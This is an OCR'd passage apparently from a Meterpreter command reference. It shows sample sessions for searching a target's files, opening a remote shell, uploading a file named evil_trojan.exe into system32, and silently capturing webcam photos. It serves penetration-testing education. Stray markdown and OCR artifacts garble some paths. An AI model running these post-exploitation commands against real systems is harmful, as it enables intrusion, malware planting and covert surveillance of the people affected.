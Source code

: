 ```bash
```

## search

It allows us to search in the opposite system.

```bash
meterpreter > search -f autoexec.bat
Found 1 result...
c:\AUTOEXEC.BAT
meterpreter > search -f sea*****.bat c:\\xamp\\
Found 1 result...
c:\\xampp\perl\b**in**\search.bat **(**57035 bytes**)**
meterpreter >
```

## shell

The `shell` command allows you to enter the Command Prompt line of the opposite system in Meterpreter.

```bash
meterpreter > shell
Process 39640 created.
Channel 2 created.
Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

## upload

Allows you to upload a file to the other system. The target system's file notation must be observed. Backticks must be noted.

```bash
meterpreter > upload evil_trojan.exe c:\\windows\\system32
> uploading  : evil_trojan.exe -> c:\windows\system32
> uploaded   : evil_trojan.exe -> c:\windows\system32\evil_trojan.exe
meterpreter >
```

## webcam_list

Lists the webcams available on the target system.

```bash
meterpreter > webcam_list
1: Creative WebCam NX Pro
2: Creative WebCam NX Pro **(**VFW**)**
meterpreter >
```

## webcam_snap

Takes a photo from the target system's webcam and saves it in .jpeg format to your local folder.

```bash
meterpreter > webcam_snap -i 1 -v false
> Starting...
**[**+] Got frame
> Stopped
Webcam shot saved to: /root/Offsec/YxdhwpeQ.jpeg
meterpreter >
```
